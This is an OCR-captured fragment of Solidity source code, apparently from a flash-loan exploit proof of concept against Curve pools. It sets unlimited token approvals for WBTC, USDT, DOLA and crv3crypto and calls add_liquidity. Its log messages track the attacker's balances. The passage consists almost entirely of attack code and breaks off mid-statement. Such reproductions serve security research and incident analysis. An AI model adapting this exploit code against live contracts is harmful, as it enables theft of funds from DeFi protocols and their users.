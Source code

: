 │     premiums;                                                                                                                                                                                                                                        │
│     params;                                                                                                                                                                                                                                          │
│     initiator;                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     WBTC.approve(address(curveVyper_contract), type(uint256).max);                                                                                                                                                                                   │
│     WBTC.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     usdt.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     DOLA.approve(address(curveRegistry), type(uint256).max);                                                                                                                                                                                         │
│     crv3crypto.approve(                                                                                                                                                                                                                              │
│       0xE537B5cc158EB71037D4125BDD7538421981E6AA,                                                                                                                                                                                                    │
│       type(uint256).max                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Flashloaned, WBTC balance of attacker:",                                                                                                                                                                                                      │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     curveVyper_contract.add_liquidity(amounts2, 0);                                                                                                                                                                                                  │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, crv3crypto balance of attacker:",                                                                                                                                                                                        │